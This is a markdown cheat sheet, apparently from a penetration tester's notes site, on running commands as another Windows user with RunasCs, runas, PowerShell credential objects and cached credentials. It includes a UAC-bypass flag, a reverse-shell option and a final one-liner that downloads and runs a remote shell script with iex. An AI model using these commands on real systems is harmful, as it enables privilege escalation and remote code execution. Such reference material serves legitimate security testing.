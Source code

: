 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["Powershell", "Credential Object", "Windows", "Runas", "UAC"]
---
```


### RunasCS

```console
.\RunasCs.exe '<USER>' '<PASSWORD>' "<CMD>" -r <LOCAL_IP>:<LOCAL_PORT>
```

```console
.\RunasCs.exe '<USER>' '<PASSWORD>' "<CMD>" -l <LOGON_TYPE>
```

```console
# Or
.\RunasCs.exe '<USER>' '<PASSWORD>' --bypass-uac "<CMD>" -l <LOGON_TYPE>
```

<br>

```
LOGON TYPE
---------------------
2  Interactive
3  Network
4  Batch
5  Service
7  Unlock
8  NetworkCleartext
9  NewCredentials
10 RemoteInteractive
11 CachedInteractive
```

<small>*Ref: [RunasCS](https://github.com/antonioCoco/RunasCs)*</small>

### Runas (With Password)

```console
runas /user:'<USER>' "<CMD>"
```

```console {class="sample-code"}
runas /user:'admin' "powershell"
```

### Runas (With Cred Object)

#### 1. Create Credential Object

{{< tab set1 tab1 >}}Method 1{{< /tab >}}
{{< tab set1 tab2 >}}Method 2{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = '<PASSWORD>'
```

```console
$secstr = New-Object -TypeName System.Security.SecureString
```

```console
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

{{< /tabcontent >}}

#### 2. Run Command

{{< tab set2 tab1 >}}Invoke-Command{{< /tab >}}
{{< tab set2 tab2 >}}PSSession{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Set Computer to 'localhost' if Running Locally
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME>
```

```console {class="sample-code"}
Invoke-Command -ScriptBlock { powershell } -Credential $cred -Computer localhost
```

```console
# If Error, Try
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -auth credssp
```

```console
# Invoke Command with Config
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -ConfigurationName <CONFIG_NAME>
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
# Set Computer to '.' if Running Locally
new-pssession -computername <COMPUTER_NAME> -credential $cred
```

```console {class="sample-code"}
new-pssession -computername . -credential $cred
```

```console
# Switch to New Session
enter-pssession <SESSION_ID>
```

{{< /tabcontent >}}

### Runas (With Cached Creds)

#### 1. Check Cached Creds

```console
cmdkey /list
```

#### 2. Run Command

```console
runas /user:<DOMAIN>\<USER> /savecred "<CMD>"
```

```console {class="sample-code"}
# e.g. Upload and Run a Shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://<LOCAL_IP>/shell.ps1')"
```
